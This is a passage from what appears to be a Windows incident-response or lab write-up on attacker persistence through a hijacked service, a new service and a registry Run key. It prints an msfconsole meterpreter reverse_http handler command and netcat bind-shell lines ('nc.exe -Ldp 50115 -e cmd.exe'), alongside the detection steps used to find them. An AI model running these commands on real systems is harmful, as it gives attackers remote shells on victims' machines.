 This also looks suspicious and indicates the malware is attempting to
provide some type of reverse HTTP shell to the attacker.

**ANALYSIS:**

The binary path value of the Google Update Service was changed to point
to a malicious program.  The service is configured to execute
automatically with a delayed start which allows the attacker's program
to run after every startup.  When executed, the program connects to port
8888 on the attacker's machine and requests an unknown resource via
HTTP.  This is most likely an attempt to provide a reverse HTTP shell to
the attacker.

**ANSWER:**

This persistence method allows an attacker to obtain a reverse HTTP
meterpreter shell with:

```bash
msfconsole -x 'use multi/handler;set payload windows/x64/meterpreter/reverse_http;set LHOST 192.168.2.110;set LPORT 8888;run'
```

## New Service

A new service can be created and configured by an attacker to execute at
startup.

Using `gwmi win32_service | select name,status,pathname | ft -auto | findstr /v /i system32`  again shows services that use suspicious
arguments such as:

```powershell
GoogleUpdates          Stopped    C:\users\vm-user\appdata\local\GoogleUpdate.exe -dlp 50115 -e cmd.exe
```

Obtaining the MD5 hash of the file using `certutil -hashfile GoogleUpdate.exe MD5`  allows us to verify with several malware
analysis sites that this program is actually `netcat`:

`nc.exe      E0FB946C00B140693E3CF5DE258C22A1`

Executing the file shows it opens port 50115 on the victim and presents
a command shell when someone connects to it.

Gathering information on the service shows it is configured to start
manually.  So how does this service restart after reboots?

Running SysInternals tool "Autoruns" by typing `autorunsc.exe -accepteula -m` shows this service is configured to auto-start using
a registry key:

In the `HKLM\SOFTWARE\Microoft\Windows\CurrentVersion\Run`:

```powershell
GooglesUpdaters       C:\windows\system32\nc.exe -Ldp 50115 -e cmd.exe
```
